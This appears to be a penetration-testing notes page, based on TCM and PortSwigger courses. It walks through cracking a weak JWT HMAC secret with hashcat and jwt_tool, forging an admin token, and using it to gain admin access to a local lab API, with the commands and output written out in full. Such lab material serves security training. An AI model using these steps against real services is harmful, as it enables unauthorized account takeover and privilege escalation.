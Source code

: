 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Weak Signature

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

{% hint style="info" %}
_List with well-known secrets:_ [_jwt.secrets.list_](https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list)_._
{% endhint %}

{% code overflow="wrap" %}
```bash
# Logging in with valid creds
$ curl -X POST http://localhost/login -H 'Content-Type: application/json' --data '{"username":"user","password":"user"}'
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM"}

# Brute forcing the secret
hashcat -a0 -m16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM /usr/share/wordlists/rockyou
<SNIP>
eyJ...<SNIP>...CDM:ucyxu6
<SNIP>

# We can also crack the JWT secret with jwt_tool
$ jwt_tool -C -d /usr/share/wordlists/rockyou 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ==.BmzWWVFXmJsqH7K9dTxCyCopRB0HHFvCYKCfwW+8We4='

Original JWT:

[+] coffee is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "coffee"
```
{% endcode %}

{% hint style="info" %}
_Hashcat signs the header and payload from the JWT using each wordlist secret and compares the resulting signature with the original one (_[_16500_](https://hashcat.net/wiki/doku.php?id=example\_hashes)_)._
{% endhint %}

<figure><img src="../../../../../../.gitbook/assets/jwt_weak_signature.png" alt=""><figcaption><p>Figure 1: Tampering with the JWT's <code>userid</code> claim.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Testing the token
$ curl -i http://localhost/dashboard -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 45
ETag: W/"2d-bqbMS3LH08+zkhZI3cPwYShjqaE"
Date: Tue, 25 Jun 2024 06:09:39 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Welcome to your dashboard admin"}
```
{% endcode %}

We can also tamper the required claims using `jwt_tool`.

{% code overflow="wrap" %}
```bash
# Tampering with the JWT
$ jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzE5Mjk1MTA5fQ.aUlvUvP4XbodwpBalrS-1t70Sqx7FxQCvBrmwT8oCDM -T -S hs256 -p 'ucyxu6'

Original JWT:

====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] userid = "user"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of userid is: user
Please enter new value and hit ENTER
> admin
[1] userid = "admin"
[2] iat = 1719295109    ==> TIMESTAMP = 2024-06-25 06:58:29 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_8043cf61f00c28f7a057cdc20df41290 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcxOTI5NTEwOX0.py2v7_Kqtexh4Cq8hqBdEV8wiCr8p6x9eeZFNGlKW4U
```
{% endcode %}

We can also tamper the JWT's claim using the Burp's [JWT Editor](https://portswigger.net/burp/documentation/desktop/testing-workflow/session-management/jwts#editing-jwts) extension (Figure 2).

> _The below example is base on PortSwigger's_ [_JWT attacks_](https://portswigger.net/web-security/jwt) _module._

<figure><img src="../../../../../../.gitbook/assets/jwt_weak_signature_1.png" alt=""><figcaption><p>Figure 2: </p></figcaption></figure>
